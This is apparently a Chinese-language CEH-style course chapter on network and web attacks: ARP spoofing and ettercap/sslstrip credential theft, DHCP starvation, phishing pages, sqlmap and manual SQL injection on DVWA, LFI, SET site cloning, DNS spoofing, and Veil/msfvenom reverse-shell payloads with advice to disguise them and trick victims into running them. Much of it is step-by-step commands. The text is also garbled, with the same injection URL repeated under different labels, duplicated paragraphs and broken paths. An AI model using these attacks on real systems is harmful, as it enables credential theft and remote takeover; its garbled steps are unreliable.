# 计算机网络攻击：计算机网络攻击全课程

## 第 7 部分：嗅探器与钓鱼攻击

认证伦理黑客 (CEH) 课程第 7 部分

### a. 了解嗅探器



### b. 理解 ARP 毒骗

 

ARP 毒骗是更改网关的 MAC 地址，将路由器的 MAC 地址改为黑客的。ARP 毒骗的命令是：

`arp -I eth0 -t (target ip)` (image-xbbgy2d.jpg)

### c. 使用 Ettercap 进行中间人攻击


使用命令行启用 IP 转发：

```bash
echo 1 > /proc/sys/net4/ip_forward
```

进行 ARP 毒骗：

```bash
arpspoof -I eth0 -t 192.168.52.132 (target ip)
```

(image-btkdghpz.jpg) 编辑 IP 表，告诉电脑进入 80 端口的流量必须重定向到 192.168.52.2 (gateway ip)。

编辑 `etter.conf`： 

激活 pentest 工具：

```bash
cd /pentest/web
python sslstrip.py -a (10000)
```

使用 `ettercap` 工具显示结果：

```bash
ettercap -T -q -I eth0
```

从目标计算机连接并获取用户名和密码。

(image-c1kpygn.jpg)

### d. 使用 Ettercap 图形界面进行中间人攻击

重复 IP 转发、iptables 和 sslstrip 的步骤：

```bash
echo 1 > /proc/sys/net4/ip_forward
arpspoof -I eth0 -t 192.168.52.132 (target ip) 192.168.52.2 (gateway ip)
cd /pentest/web
python sslstrip.py -a (10000)
```

打开 `ettercap`。选择 sniff（嗅探）、`eth0`，扫描 hosts（主机）。然后进行 ARP 毒骗。然后开始嗅探。你也可以使用 Windows 版本的 `Cain`。也可以使用 `yamas` 工具。

### e. DHCP 耗尽攻击：


在 DHCP 耗尽中，黑客将停止 DHCP 服务器。黑客将在电脑上建立 DHCP 服务器。如果客户端想要 IP，黑客电脑将提供，但网关将黑客机器的 IP，黑客将开启 IP 转发连接互联网。黑客拥有嗅探程序。当客户端想要上网时，数据将发送到黑客电脑。数据通过黑客电脑，黑客将其转发到互联网。嗅探程序将显示客户端的用户名和密码。

DHCP 耗尽技术：


我们必须在黑客电脑上安装 DHCP 服务器。然后配置范围。我们必须将网关设置为黑客机器的 IP。然后必须安装并配置工具。该工具可以进行 DHCP 攻击并停止 DHCP 服务器。然后执行嗅探步骤。当电脑输入任何用户名密码时，我们可以在 `ettercap` 中看到。

使用命令安装 DHCP 服务器：

```bash
apt-get install dhcp-server
kate /etc/dhcp/dhcpd.conf
```

更改范围并将网关路由器 IP 为黑客电脑：

(image-0q08pfbe.jpg)

通过输入启动 DHCP 服务器：

```bash
isc-dhcp-server start
```

下载 starvation 工具停止网络中的 DHCP 服务器：

(image-shbs2bf.jpg)

这是 Windows 上的 DHCP 服务器及其范围：

(image-nbo89r2.jpg)

停止网络 DHCP 服务器，进入工具：

```bash
dhcp -I eth0
```

(image-0sy35yx.jpg)

这将保留网络 DHCP 服务器范围内的所有 IP：

(image-wpq8z5us.jpg)

我们将在黑客机器上启用 IP 转发并设置 iptable。然后运行 `sslstrip`：

(image-f7seuos.jpg)

我们运行 `ettercap` 显示用户名和密码。

(image-qravwu18.jpg)

测试连接。使用网络上的任何电脑登录。在黑客电脑上我们可以获取用户名。

(image-ub9eciuj.jpg)

### f. MAC 欺骗：

 

MAC 地址由 6 个字节组成。前 3 个字节有关厂商。另外三个字节由分配网卡的公司提供。我们可以对 MAC 地址进行欺骗，这意味着隐藏我的 MAC 地址以获取另一个 MAC 地址。出于目的需要。

在 Windows 上进行 MAC 欺骗：

(image-d2b2ohdl.jpg) 

在 Linux 中，我们可以使用 `macchanger` 工具将 MAC 地址更改为随机地址。首先禁用网卡：

```bash
ifconfig eth0 down
macchanger -r
ifconfig eth0 up
```

(image-fq73.jpg)

### g. 钓鱼：

(image-361n.jpg)

通过制作钓鱼页面并获取用户名和密码。我们需要在黑客电脑上建立钓鱼。

(image-z61.jpg)

通过 `index.php` 制作钓鱼。

(image-wro0.jpg)

(image-ta0gl.jpg)

(image-alvwe.jpg)

  

 使用 tamper 数据插件获取 cookie。

 获取网站的 URL。

 Go 应用，backtrack，渗透工具，Web 渗透工具，`sqlmap`。输入命令：

```bash
python sqlmap.py –u 'url' –cookie 'cookie' --dbs
```

 我们将获得所有的数据库。

 修改命令输入数据库名并显示该数据库中的表。

 修改命令，输入数据库名和表名，并显示该数据库中的用户。

 输入显示所有用户信息的命令。

 它会询问是否进行字典攻击，回答 yes。

 使用 tamper 数据插件获取 cookie。

 获取网站的 URL。

 Go 应用，backtrack，渗透工具，Web 渗透工具，`sqlmap`。输入命令：

```bash
python sqlmap.py –u 'url' –cookie 'cookie' --dbs
```

 我们将获得所有的数据库。

 修改命令输入数据库名并显示该数据库中的表。

 修改命令，输入数据库名和表名，并显示该数据库中的用户。

 输入显示所有用户信息的命令。

 它会询问是否进行字典攻击，回答 yes。

 有时因为防火墙的存在，我们无法使用 SQL 注入工具。因此你需要手动操作。你需要知道表中的列数，通过这种方式你可以在服务器上运行命令。我们将使用 `order by` 技术。

## DVWA 中的 SQL 注入

将 DVWA 的安全级别设置为 medium。进入 SQL injection，通过输入用户 id 进行查询：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#`

 在 user id 之后输入 `order by (n0) --`，即 `5--`——然后逐渐减小：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 order by 5-- &Submit=Submit#`

你会得到错误。当 `order by 2--` 时可以运行，说明有 2 列：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 order by 2-- &Submit=Submit#`

我们想要知道受影响的列，以便运行我们的命令，因此我们将使用 `union select`。我们可以下载名为 `hack bar` 的工具来编写命令：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 受影响的列是 2。

 获取数据库名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取数据库名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

  获取用户信息：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取版本：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取表名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取表名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取数据库名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

  获取数据库名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

  获取表名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取表名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取表名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取用户信息：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取用户信息：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 获取数据库名：

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select 1,2-- &Submit=Submit#`

 当客户端访问留言板时，它将被重定向到黑客的电脑。你可以使用 `java_signed_applet` 代替浏览器的自动弹出模块。我们在 `LHOST` 中放入黑客电脑的 IP，在 `LPort` 中放入任意端口，并将 payload 类型设置为 `java/meterpreter/reverse_tcp`。`SRVHOST` 与我们的 IP 相同，`SRVPort` 设置为 `80`，`URI` 路径为 `/`。

 任何浏览链接的人都会被发送 `java/meterpreter/reverse_tcp` payload。当客户端访问留言板时，它将被重定向到黑客电脑并下载 payload。

 我们可以通过被感染的 URL 在 unix 和 windows 中执行某些命令。我们可以上传 payload 并通过该 payload 攻击服务器。你可以浏览 Web 服务器。可以在 Web 服务器中上传 payload。我们将使用 `msfvenom`。`msfvenom` 是 `msfpayload` 和 `msfencode` 的组合。

```
msfvenom -p php/meterpreter/reverse_tcp lhost (ip of hacker computer) lport=(any) -f raw > /root/test.php
```

 删除 php 文件中的哈希。我们必须将 payload 拷贝到 Web 服务器，但它必须是文本文件。

```bash
cp /root/test.php /var/www/test.txt
```

我们将在网站上应用命令，通过 `wget` 命令上传 payload。



```bash
wget -O /tmp/test.php ; php -f /tmp/test.php
```

 准备多负载 handler。

```bash
#msfconsole
## use exploit/multi/handler
## set lhost (hacker ip)
## set lport (ip we put for the payload)
## exploit
```

 确保在你想要攻击的 Web 服务器上安装了 php   这是一种破解密码的方法，我们可以获取用户名和密码以访问我们想要攻击的网站。我们将使用暴力破解来获取 Web 服务器的访问。它是通过 get 和 post 请求实现的。我们有很多工具可以通过它们进行暴力破解。有 `bruter` 工具、`burpsuite`，进入 `dvwa brute force`。添加插件 live http header。输入用户名和密码。获取 header 信息。

 将信息放入 `bruter` 中  选择使用暴力破解  使用 `burp suite` 在 mutillidae 网站上进行尝试。将 firefox 中的代理设置设置为 IP 地址 `127.0.0.1` 和端口号 `80`。这很难用。你可以使用 `hydra` 工具。


# 本地文件包含 (LFI)

在本地文件包含（LFI）中，如果 Web 应用存在本地文件包含漏洞，我们可以通过该漏洞读取 Web 服务器内部的文件，如 `/etc/passwd`。在 DVWA 中，进入 `file inclusion`，将 `include` 参数更改为你想要下载的文件 `/etc/passwd`。

我们可以下载的最重要文件。在 Windows 机器上我们使用另一个命令。当 Web 应用存在包含漏洞时，我们可以读取 Web 服务器内部的文件如 `/etc/passwd`。在 DVWA 中，进入 `file inclusion`，将 `include` 参数更改为你想要下载的文件 `/etc/passwd`。

# 密码暴力破解

确保在你想要攻击的 Web 服务器上安装了 PHP。这是一种破解密码的方法，我们可以获取用户名和密码以访问我们想要攻击的网站。我们将使用暴力破解来获取 Web 服务器的访问权限。它是通过 GET 和 POST 请求实现的。我们有很多工具可以通过它们进行暴力破解。有 `bruter` 工具、`burpsuite`，进入 `dvwa brute force`。添加插件 `live http header`。输入用户名和密码。获取 header 信息。

将信息放入 `bruter` 中。选择使用暴力破解。使用 `burp suite` 在 `mutillidae` 网站上进行尝试。将 Firefox 中的代理设置设置为 IP 地址 `127.0.0.1` 和端口号 `8080`。这很难用。你可以使用 `hydra` 工具。

# 通过 Java 签名 Applet 进行客户端攻击

这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为一个 Web 服务器，并拥有一个带有 `Java meterpreter reverse tcp` 负载的网站。这要求客户端安装了 `java` 程序以执行 `java` 负载。任何访问该网站的人都会下载并安装该负载，黑客就可以控制该计算机。它可以攻击任何安装了 `java` 应用的机器。你需要设置 `LHOST` 和 `RHOST`（黑客 IP 地址）。`LPORT` 可以是任意端口，`RPORT` 为 `8080` 或 `80` 或任何其他端口。将 URI 部分设置为 `/`。

# 社会工程工具包 (SET) 配置

我们将为 `www.google.com` 创建一个伪造网站。当本地网络中的任何人想要访问此网站时，他们将首先访问你的伪造网站，随后伪造网站会将负载下载到客户端计算机。

1. 进入 `backtrack`，然后选择 `exploitation tools`，接着是 `social engineering tools`，然后是 `social engineering toolkit`，最后执行 `set` 命令。
2. 执行以下命令：
   ```bash
   sudo ./setup.py install
   ./set-update
   ./settoolkit
   ```
3. 选择 `1` 进行 `social engineering attack`（社会工程攻击）。
4. 选择 `2` 进行 `website attack vectors`（网站攻击向量）。
5. 选择 `1` 进行 `java applet attack method`（Java applet 攻击方法）。
6. 选择 `2` 进行 `site cloner`（站点克隆）。
7. 选择 `n` 以仅对内部网络计算机应用方法。
8. 输入黑客计算机的 IP：`192.168.52.135`。
9. 输入你想进行钓鱼的网站：`http://www.google.com`。
10. 系统会询问你想配合 `java signed applet` 使用的负载类型。选择 `12`，即 `SE toolkit http reverse shell encryption support`。
11. 输入监听端口：`6666`。

# 使用 Ettercap 进行 DNS 欺骗

1. 编辑文件 `etter.dns`。填入你钓鱼网站的 IP。
2. 输入命令：`ettercap -G` 获取 `ettercap` 的 GUI 界面。
3. 点击 `sniff` 并选择接口，然后选择 `unified sniffing`（统一嗅探）。
4. 选择 `hosts` 进入 `host list`（主机列表）。
5. 进入 `mitm` 并选择 `arp poisoning`、`poison one way`（单向中毒）。
6. 在 `plugins` 中选择 `dns_spoof` 插件。
7. 选择 `start sniffing`（开始嗅探）。

当内部网络中的客户端访问该站点时，他们将进入你的钓鱼网站。你将在 `backtrack set` 命令中看到一个 Shell，可以在其中为客户端计算机编写命令。尝试命令 `ipconfig`。

# 通过 Armitage 进行浏览器利用

黑客可以让计算机变成伪造的 Web 服务器，并托管一个利用浏览器安全漏洞攻击计算机的网站。任何访问黑客网站的客户端都会触发浏览器漏洞。

1. 启动 `armitage`。
2. 搜索 `browser_autopwn`。
3. 设置 `LHOST` 和 `SRVHOST` 为黑客机器的 IP，`Srvport=80`，`URI Path=/`。
4. 你可以使用 `bitly.com` 缩短 URL。
5. 当攻击成功后，它将打开 `meterpreter` 会话。

> **注意**：杀毒软件会检测到 `autopwn` 并拦截连接。

# Firefox XPI 攻击

黑客可以让计算机变成伪造的 Web 服务器，并托管一个带有虚假插件的网站。任何访问黑客网站的客户端都会导致 `firefox` 尝试下载插件，同时下载 `java meterpreter reverse tcp` 负载。

1. 在 `msfconsole` 中搜索 `firefox`。
2. 使用利用程序 `exploit/multi/browser/firefox_xpi_bootstrapped_addon`。
3. 设置负载 `windows/meterpreter/reverse_tcp`。
4. 设置 `Lhost` 和 `Rhost`（黑客计算机）、`Lport`（任意端口）以及 `srvport` 为合适的端口。
5. 要查看会话，输入：`sessions -l`。
6. 选择第一个会话，输入：`session -i 1`。

> **注意**：Firefox 会检测到未经验证的插件且不会安装它们。

# 使用 Veil 生成负载

下载 `Veil-master` 工具：

```bash
cd Veil-master
cd setup
./setup.sh
python veil.py
```

1. 选择 `list`。
2. 选择负载 `9: Powershell/virtualalloc`。
3. 选择 `generate the payload`（生成负载）。
4. 选择 `msfvenom`。
5. 选择 `windows/meterpreter/reverse_tcp`。
6. 选择 `lhost`（黑客机器的 IP：`192.168.52.135`）。
7. 选择任意 `lport`。
8. 选择负载的名称。

使用如 `winrar` 等压缩程序将负载附加到另一个程序中。使用图标更改器更改图标。通过任何技巧让客户端下载文件。使用 `msfcli` 运行 `multi-handler` 工具来攻击客户端：

```bash
msfcli multi/handler payload=windows/meterpreter/reverse_tcp lhost=192.168.52.135 lport=4444
```

一旦客户端连接上，`meterpreter` 会话将会打开。使用 `evilgrade` 管理攻击。

```bash
## evilgrade
## configure
## show options
## status
```

# Linux 漏洞利用

Linux 的漏洞比 Windows 少，但 Linux 可以通过载荷被攻击。进入 `msf3` 文件夹并输入命令 `msfpayload linux`。然后使用命令 `msfcli multi/handler` 在客户端运行载荷时控制被攻击机器。

# 第 10 部分：Linux 中的无线网络

## 无线网络基础

接入点（Access Point）是传输信号的设备。无线适配器是连接到接入点的设备。SSID 是无线网络的名称。通道（Channel）是代表特定无线通信频率的数字。加密是使用 WAP – WEP – WPA2 对消息进行编码的过程。它分为两个步骤：身份验证和加密。

## WEP 认证机制

WEP 身份验证有 64 位、128 位和 256 位。你输入预共享密钥。接入点生成 IV（初始化向量），它是一个 24 位的密钥。WEP 种子进入 `RC4 Cipher` 算法，然后进入密钥流（keystream），接着进入 `CRC-32` 进行错误修正和检测。它获取数据和 ICV。对数据和密钥流进行异或（XOR）操作。

## 无线网卡监听模式与注入测试

要检查无线卡是否支持注入，使用 `airmon-ng` 或 `iwconfig` 命令。你需要知道是否能看到网络。

```bash
# airmon-ng
